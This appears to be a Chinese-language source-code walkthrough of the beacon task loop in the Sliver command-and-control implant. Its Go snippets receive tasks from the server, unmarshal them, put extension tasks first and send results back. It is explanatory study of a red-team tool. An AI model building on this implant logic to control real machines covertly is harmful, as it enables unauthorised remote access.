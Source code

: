 ```Go
	log.Printf("[beacon] send failure %s", err)
	// {{end}}
	return err
}
```

接收任务

```Go
// {{if .Config.Debug}}
log.Printf("[beacon] recv task(s) ...")
// {{end}}
envelope, err := beacon.Recv()
if err != nil {
	// {{if .Config.Debug}}
	log.Printf("[beacon] recv failure %s", err)
	// {{end}}
	return err
}
if envelope == nil {
	// {{if .Config.Debug}}
	log.Printf("[beacon] read nil envelope (no tasks)")
	// {{end}}
	return nil
}
```

使用beacon.Recv()接收任务.如果收到的任务封装envelope为nil,表示没有任务.

解析任务,创建tasks对象,并使用proto.Unmarshal()解析收到的任务数据.

```Go
tasks := &sliverpb.BeaconTasks{}
err = proto.Unmarshal(envelope.Data, tasks)
if err != nil {
	// {{if .Config.Debug}}
	log.Printf("[beacon] unmarshal failure %s", err)
	// {{end}}
	return err
}

// {{if .Config.Debug}}
log.Printf("[beacon] received %d task(s) from server", len(tasks.Tasks))
// {{end}}
if len(tasks.Tasks) == 0 {
	return nil
}
```

分类任务,将任务分类为tasksExtensionRegister和tasksOther,确保扩展任务在普通任务之前处理.

```Go
var tasksExtensionRegister []*sliverpb.Envelope
var tasksOther []*sliverpb.Envelope

for _, task := range tasks.Tasks {
	switch task.Type {
	case sliverpb.MsgRegisterExtensionReq:
		tasksExtensionRegister = append(tasksExtensionRegister, task)
	default:
		tasksOther = append(tasksOther, task)
	}
}
```

处理任务并发送结果,使用beaconHandleTasklist处理tasksExtensionRegister和tasksOther,将结果存储在results 中.使用beacon.Send()发送处理结果.
